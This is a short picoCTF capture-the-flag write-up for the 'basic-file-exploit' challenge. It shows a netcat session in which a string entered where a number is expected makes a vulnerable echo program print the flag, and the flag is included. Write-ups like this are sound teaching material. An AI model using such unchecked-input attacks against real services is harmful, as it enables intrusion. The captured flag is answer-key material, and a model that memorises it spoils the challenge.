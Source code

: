 # basic-file-exploit

## Descripcion
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it! Connect to the program with netcat: `$ nc saturn.picoctf.net 52681` The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).

## Pistas
1. Try passing in things the program doesn't expect. Like a string instead of a number.

## Solucion 
```bash
└─$ nc saturn.picoctf.net 52681
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
qwerty
qwerty
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
1
1
qwert
Read successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
asdfghjklasdfghjkl
asdfghjklasdfghjkl
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```

## Notas Adicionales

## Referencias